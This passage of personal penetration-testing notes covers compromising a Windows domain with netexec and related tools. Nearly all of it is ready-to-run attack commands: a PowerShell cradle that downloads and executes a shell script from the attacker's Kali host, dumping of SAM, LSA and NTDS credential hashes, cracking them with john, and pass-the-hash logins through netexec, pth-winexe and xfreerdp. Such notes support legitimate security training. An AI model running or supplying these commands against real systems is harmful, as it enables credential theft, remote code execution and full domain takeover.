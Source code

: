```bash - kali
netexec smb $TARGET -u $USER -p $PASSWORD -X 'IEX(New-Object Net.WebClient).DownloadString("http://$KALI/Shelly.ps1")'
```

#### 17 SwisArmy Dumping SAM
NEED LOCAL ADMIN ACCESS TO WORK!

> Password hashes are found in:     C:\Windows\System32\config
> 
```bash - kali
netexec smb $TARGET -u $USER -p $PASSWORD --sam
```

Use these to Pass The Hash!
####  19 SwisArmy Dumping LSA + PTH with CME

Try dumping the DOMAIN hashes:
```bash - kali
netexec smb $TARGET -u $USER -p $PASSWORD --lsa
```

```bash - kali
john --format=NT /home/kali/.cme/logs/*.sam --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash - kali
john --format=NT /home/kali/.cme/logs/*.sam --show
```
>View the contest of /home/kali/.cme/logs/*.cached:

Copy one of the hash values as seen above to attempt PTH.
```bash - kali
netexec smb $TARGET -u $USER -H $HASH -X 'whoami'
```

If the user is a Domain Admin, we can do a ntds dump against the **domain controller**:
>NTDS is the database that contains all the NTLM hashes for all the users in the entire domain.
```bash - kali
netexec smb $DOMAIN_CONTROLLER_IP -u $USER -H $HASH --ntds
```

>Results are stored in /home/kali/.cme/logs/*.ntds

Find command to cut out users > users.txt and hashes > hashes.txt

Tested with whole has vs only 2nd half, both seemed to work!
```bash - kali
netexec smb $DOMAIN_CONTROLLER_IP -u $USER -H $HASH -X 'hostname;whoami;ipconfig'
```

#### 19 SwisArmy pth winexe and xfreerdp
In this example, we did use both parts of the hash to pass:
```bash - kali
sudo pth-winexe -U $USER%$HASH //$TARGET cmd.exe
```

```bash - kali
xfreerdp /u:$USER /pth:$HASH /d:<DOMAIN> /v:$TARGET
```
